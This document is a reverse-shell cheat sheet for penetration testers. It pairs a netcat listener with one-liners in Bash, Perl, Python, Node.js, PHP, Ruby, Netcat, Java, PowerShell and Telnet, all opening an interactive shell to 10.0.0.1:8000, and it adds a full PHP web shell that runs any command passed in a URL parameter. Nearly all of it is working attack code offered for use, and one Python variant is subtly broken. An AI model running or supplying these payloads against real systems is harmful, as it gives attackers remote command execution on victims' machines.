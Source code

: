 # Reverse shells
> A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host.

---

## Listener
### Netcat
```
nc -lvnp 8000
```

## Reverse shells
### Bash
```
bash -i >& /dev/tcp/10.0.0.1/8000 0>&1
```

### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=8000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python 2
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
python -c 'import sys,socket,os,pty;s=socket.socket() s.connect((os.getenv("10.0.0.1"),int(os.getenv("8000")))) [os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")'
```

### Python 3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### Nodejs
```
require('child_process').exec('nc -e sh 10.0.0.1 8000')
```

### PHP
```
php -r '$sock=fsockopen("10.0.0.1",8000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);passthru("sh <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);popen("sh <&3 >&3 2>&3", "r");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);system("sh <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen(getenv("10.0.0.1"),getenv("8000"));exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",8000).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```
nc -e /bin/sh 10.0.0.1 8000
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8000 >/tmp/f
```

### Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Powershell
```
powershell%20-nop%20-c%20%22$client%20=%20New-Object%20System.Net.Sockets.TCPClient('10.0.0.1',8000);$stream%20=%20$client.GetStream();%5Bbyte%5B%5D%5D$bytes%20=%200..65535%7C%25%7B0%7D;while(($i%20=%20$stream.Read($bytes,%200,%20$bytes.Length))%20-ne%200)%7B;$data%20=%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString($bytes,0,%20$i);$sendback%20=%20(iex%20$data%202%3E&1%20%7C%20Out-String%20);$sendback2%20=%20$sendback%20+%20'PS%20'%20+%20(pwd).Path%20+%20'%3E%20';$sendbyte%20=%20(%5Btext.encoding%5D::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()%7D;$client.Close()%22
```

### Telnet
```
TF=$(mktemp -u); mkfifo $TF && telnet 10.0.0.1 8000 0<$TF | /bin/sh 1>$TF
```

---

## 📚 References
- [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
- [netsparker.com/blog/web-security/understanding-reverse-shells/](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)
- [revshells.com](https://www.revshells.com/)